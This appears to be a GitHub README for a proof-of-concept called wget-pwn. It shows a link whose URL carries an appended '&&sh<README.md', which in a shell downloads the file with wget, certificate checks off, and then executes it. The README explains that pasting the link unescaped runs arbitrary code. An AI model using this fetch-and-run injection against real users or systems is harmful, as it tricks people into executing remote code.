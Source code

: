 wget-pwn
=========


A click on the following link in your browser will only display this readme file.


[README.md](https://raw.githubusercontent.com/markus-perl/wget-pwn/master/master/README.md&&sh<README.md)


But downloading this link unescaped with wget will execute arbitary code.


    wget --no-check-certificate https://raw.githubusercontent.com/markus-perl/wget-pwn/master/master/README.md&&sh<README.md

